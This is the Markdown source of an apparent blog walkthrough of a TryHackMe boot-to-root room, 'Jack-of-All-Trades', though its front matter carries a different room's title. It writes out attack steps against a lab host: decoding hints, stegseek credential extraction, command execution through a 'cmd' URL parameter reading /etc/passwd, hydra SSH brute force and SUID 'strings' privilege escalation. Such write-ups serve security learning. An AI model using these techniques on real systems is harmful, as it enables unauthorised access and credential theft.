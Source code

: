 ```yaml
---
layout: post
title: Walkthrough - Year of the Rabbit
published: false
---
```


Securit-Tay, Conference, Challenge, Boot-to-Root. Boot-to-root originally designed for Securi-Tay 2020.

[https://tryhackme.com/room/jackofalltrades](https://tryhackme.com/room/jackofalltrades)

* * *

## Notes

> Jack is a man of a great many talents. The zoo has employed him to capture the penguins due to his years of penguin-wrangling experience, but all is not as it seems... We must stop him! Can you see through his facade of a forgetful old toymaker and bring this lunatic down?

- nmap give us two ports an ssh and a http server that are swapped around. 

```
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
|_http-title: Jack-of-all-trades!
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 13:b7:f0:a1:14:e2:d3:25:40:ff:4b:94:60:c5:00:3d (DSA)
|   2048 91:0c:d6:43:d9:40:c3:88:b1:be:35:0b:bc:b9:90:88 (RSA)
|   256 a3:fb:09:fb:50:80:71:8f:93:1f:8d:43:97:1e:dc:ab (ECDSA)
|_  256 65:21:e7:4e:7c:5a:e7:bc:c6:ff:68:ca:f1:cb:75:e3 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Linux 3.12 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- in order to view the site on port 22 in firefox we have to add this string to about:config ``network.security.ports.banned.override``.

- viewing the source code we find a page ``/recovery.php`` and a base64 encoded text, ``UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg==``

```
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq
```

- lets save this to a list for later ``echo "u?WtKSraq" > passwords.list``

- we also find another comment on recovery.php 

```
<!-- GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=  -->
```

- decode from base32

```
45727a727a6f72652067756e67206775722070657271726167766e79662067622067757220657270626972656c207962747661206e657220757671717261206261206775722075627a72636e7472212056207861626a2075626a20736265747267736879206c6268206e65722c20666220757265722766206e20757661673a206f76672e796c2f3247694c443246
```

- and decode from ascii

```
Erzrzore gung gur perqragvnyf gb gur erpbirel ybtva ner uvqqra ba gur ubzrcntr! V xabj ubj sbetrgshy lbh ner, fb urer'f n uvag: ovg.yl/2GiLD2F
```

- and finally ROT-13

```
Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```

- which is a hint to use steganography to find the creds for the recovery.php page
- a few images on the homepage one of which is stego.jpg. lets check them out.
- we can use passwords.list to get the cred.txt from stego

```
Hehe. Gotcha!

You're on the right path, but wrong image!
```

- header.jpg

```
stegseek header.jpg passwords.list 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "u?WtKSraq"
[i] Original filename: "cms.creds".
[i] Extracting to "header.jpg.out".

┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Jack-of-All-Trades]
└─$ cat header.jpg.out        
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: TplFxiSHjY
```

now we get to a page where we can possibly lfi using the paramater ``cmd``

- ``http://10.10.86.12:22/nnxhweOV/index.php?cmd=id``
- ``http://10.10.86.12:22/nnxhweOV/index.php?cmd=ls%20/home`` - ``jack jacks_password_list jacks_password_list``
- ``view-source:http://10.10.86.12:22/nnxhweOV/index.php?cmd=cat%20/home/jacks_password_list`` and save to the password.list
- ``http://10.10.86.12:22/nnxhweOV/index.php?cmd=cat /etc/passwd``

- ``hydra -l jack -P passwords.list 10.10.86.12 -s 80 ssh``

- ``[80][ssh] host: 10.10.86.12   login: jack   password: ITMJpGGIqg1jn?>@``

* * * 

## What is the user flag?

![](/assets/jack-of-all-trades05.png)

- ``scp -P 80 jack@10.10.86.12:/home/jack/user.jpg .``

* * * 

## What is the root flag?

- ``find / -perm -u=s -type f 2>/dev/null`` - ``/usr/bin/strings`` has suid set so we can read any file on the system.

- ``strings /root/root.txt``

* * * 

